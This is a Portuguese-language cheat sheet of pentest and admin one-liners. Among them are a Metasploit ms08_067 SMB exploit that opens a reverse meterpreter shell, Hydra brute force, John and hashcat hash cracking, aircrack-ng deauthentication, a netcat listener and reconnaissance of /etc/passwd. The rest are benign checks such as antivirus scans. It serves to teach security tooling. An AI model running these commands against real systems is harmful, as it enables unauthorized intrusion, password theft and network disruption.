 # 🔍 Coleta de informações (rede, DNS, HTTP, etc.)
whois example.com && dig example.com && nslookup example.com && host example.com && traceroute google.com && curl -I http://example.com && wget http://site.com/arquivo.exe

# 🧪 Pentest – Metasploit
msfconsole -q -x "search smb; use exploit/windows/smb/ms08_067_netapi; set RHOST 192.168.0.10; set LHOST 192.168.0.100; set PAYLOAD windows/meterpreter/reverse_tcp; exploit"

# 🕷️ Nikto – Scanner de vulnerabilidades web
nikto -h http://192.168.0.10

# 💣 Força bruta – Hydra e John the Ripper
hydra -l admin -P wordlist.txt ftp://192.168.0.10 && john --wordlist=rockyou.txt hashes.txt

# 🔓 Quebra de hash simples
echo "hash_aqui" | hashcat -m 0 -a 0 -o cracked.txt rockyou.txt

# 📡 Wireless – Aircrack-ng
airmon-ng && airodump-ng wlan0mon && aireplay-ng -0 5 -a BSSID -c STATION wlan0mon && aircrack-ng capture.cap

# 🛡️ Linux – Antivírus CLI
clamscan -r /home/usuario && freshclam

# 🧰 Ferramentas úteis CLI
tcpdump -i eth0 && arp-scan -l && hping3 -S 192.168.0.1 -p 80 -c 3 && nc -nv 192.168.0.1 22 && nc -lvp 4444

# 🧠 Scripts rápidos Linux
( echo "UID 0:" && awk -F: '$3 == 0 { print $1 }' /etc/passwd ) && ( echo "Portas abertas:" && ss -tulwn ) && ( echo "Últimos logins:" && last -n 5 ) && ( echo "Conexões de rede:" && lsof -i -Pn )

# 🧠 Scripts rápidos PowerShell
Get-LocalUser | Where-Object { $_.Enabled -eq $true } && Get-EventLog -LogName Security -Newest 10 && Get-Process | Sort-Object CPU -Descending | Select-Object -First 5

# 🐚 Bash prompt para reconhecimento inicial
echo "=== SYSTEM ===" && uname -a && echo "=== USERS ===" && cat /etc/passwd | cut -d: -f1 && echo "=== NETWORK ===" && ip a && echo "=== PROCESSES ===" && ps aux --sort=-%mem | head

